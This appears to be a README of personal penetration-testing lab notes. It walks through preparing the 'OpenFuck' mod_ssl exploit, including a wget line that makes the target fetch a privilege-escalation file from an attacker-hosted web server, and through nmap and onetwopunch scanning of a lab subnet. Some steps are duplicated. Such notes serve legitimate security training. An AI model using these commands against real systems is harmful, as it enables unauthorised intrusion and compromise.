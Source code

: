 # pentest
 
**mod_ssl 2.8.7 open ssl exploit (openfuckv2)** (https://www.exploit-db.com/exploits/764)

1. Change location for **ptrace-kmod.c**
at about line 672 - update download location for ptrace-kmod.c file. Ideally, you can host this file on your webserver (eg. attacking machine SimpleHTTPServer) so that when you execute the exploit it will retrieve this dependency to run successfully.
`wget http://your-attacking-ipaddress/ptrace-kmod.c;`

2. install libssl-dev
`apt-get install libssl-dev`

3. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

4. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`

---

**Onetwopunch.sh** (https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) Wrapper for unicornscan (fast port scan) and nmap (vuln script scan)
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`